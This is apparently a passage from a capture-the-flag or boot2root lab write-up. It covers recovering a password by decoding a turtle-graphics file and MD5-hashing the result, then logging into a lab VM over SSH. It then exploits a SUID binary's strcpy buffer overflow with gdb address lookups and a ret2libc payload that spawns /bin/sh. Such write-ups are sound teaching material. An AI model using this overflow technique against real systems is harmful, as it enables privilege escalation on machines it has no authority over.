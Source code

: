 ### Zaz

On the `thor` session we have a file `turtle` which is a series of instructions about movements and directions. These instructions are from a graphic library in python named `turtle`. After writing python scripts that draw these instructions we decode the word `SLASH`. </br>
We tried different hash algorithm and found the password for `zaz`:
```
echo -n "SLASH" | md5sum
ssh zaz@192.168.56.103 
password : 646da671ca01bb5d84dbb5fb2238dc8e
```  

## Buffer overflow 

On the `zaz`'s session we find the file `exploit_me` which is a 32-bit ELF file with a SUID. After opening it in Ghidra we found this pseudo code:
```
bool main(int param_1,int param_2)

{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return param_1 < 2;
}
```  

Our input is copied in a buffer of 140 bytes with `strcpy` making it vulnerable to buffer overflow because of the lack of size boundaries. We can overwrite the return address of the function of `main` like a `ret2libc` (system + exit + "/bin/sh").
```
gdb exploit_me
(gdb) disas main
(gdb) b 0x08048420
(gdb) r test
(gdb) info function system 
0xb7e6b060  system

(gdb) info function exit
0xb7e5ebe0  exit

(gdb) info proc map 
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so

(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
0xb7f8cc58

(gdb) r $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
```
